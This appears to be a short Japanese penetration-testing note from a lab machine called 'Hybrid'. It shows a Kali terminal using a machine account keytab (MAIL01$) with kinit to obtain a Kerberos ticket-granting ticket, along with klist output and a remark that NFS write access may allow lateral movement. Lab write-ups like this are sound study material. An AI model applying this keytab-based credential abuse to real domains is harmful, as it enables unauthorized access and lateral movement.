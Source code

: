 チケットを取得する
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/10.10.233.118]
└─$ export KRB5CCNAME=/tmp/mail01.ccache
kinit -k -t krb5.keytab 'MAIL01$@HYBRID.VL'

┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/10.10.233.118]
└─$ klist                               
Ticket cache: FILE:/tmp/mail01.ccache
Default principal: MAIL01$@HYBRID.VL

Valid starting     Expires            Service principal
10/16/25 03:30:09  10/16/25 13:30:09  krbtgt/HYBRID.VL@HYBRID.VL
        renew until 10/17/25 03:30:08
```
取得できた

[[DC#CertPy]]に戻る
# Notes
- NFSに書き込み権限があるときは、横展開を行えるかも

